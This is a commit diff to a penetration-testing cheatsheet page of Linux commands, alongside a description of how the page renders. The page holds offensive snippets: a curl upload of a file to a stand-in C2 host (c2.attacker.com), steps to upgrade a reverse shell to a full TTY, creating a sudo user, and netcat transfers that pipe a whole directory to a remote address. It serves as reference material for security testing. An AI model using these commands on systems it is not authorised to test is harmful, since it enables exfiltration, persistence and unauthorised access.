

Before and after one commit to trojand/cheatsheet, an MkDocs documentation site: the page built from docs/Useful_Commands/Linux.md, in a window 1280 px wide and 1400 px high, scrolled down 2874 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 3504 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update Linux.md

````diff
--- a/docs/Useful_Commands/Linux.md
+++ b/docs/Useful_Commands/Linux.md
@@ -116,9 +116,54 @@ curl -k --user 'root:toor' --upload-file file.zip https://127.0.0.1:8000/file.zi
 curl -k --user 'root:haxorz' --upload-file file.zip https://c2.attacker.com:443/file.zip
 ```
 
+## Upgrade Reverse shell to fully interactive TTY[^6]
+* In reverse shell
+```bash
+python -c 'import pty; pty.spawn("/bin/bash")'
+<Ctrl-Z>
+```
+* In Attacker console
+```bash
+stty raw -echo
+fg
+```
+* In reverse shell
+```bash
+reset
+export SHELL=bash
+export TERM=xterm-256color
+stty rows <num> columns <cols>
+```
+
+## Create a user
+```bash
+# Create a user
+useradd user -U -s /bin/bash
+# Create a sudo user
+useradd user -G sudo -U -s /bin/bash
+```
+
+## Transfer files using nc (netcat)[^7]
+* Basic
+```bash
+# Receiving
+nc -l -p 9999 > received_file.txt
+# Sending
+nc 192.168.0.1 9999 < received_file.txt
+```
+* With compression
+```bash
+# Receiving
+nc -l -p 9999 | xz -dc | tar xvf -
+# Sending
+tar cvf - . | xz -c | nc 192.168.0.1 9999
+```
+
 
 [^1]: [Stack Overflow](https://stackoverflow.com/questions/3724786/how-to-diff-two-file-lists-and-ignoring-place-in-list)
 [^2]: [StackOverflow](https://stackoverflow.com/questions/1583219/how-to-do-a-recursive-find-replace-of-a-string-with-awk-or-sed)
 [^3]: [It's FOSS](https://itsfoss.com/recover-deleted-files-linux/)
 [^4]: [Fedora Project](https://docs.fedoraproject.org/en-US/quick-docs/how-to-edit-iptables-rules/)
 [^5]: [Phoenixnap](https://phoenixnap.com/kb/iptables-tutorial-linux-firewall)
+[^6]: [6c2e6e2e - Spawning interactive reverse shells with TTY](https://medium.com/@6c2e6e2e/spawning-interactive-reverse-shells-with-tty-a7e50c44940e)
+[^7]: [Tutorials Technology - How to transfer files over the network using Netcat ](https://tutorials.technology/tutorials/How-to-transfer-files-over-the-network-using-Netcat.html)
````
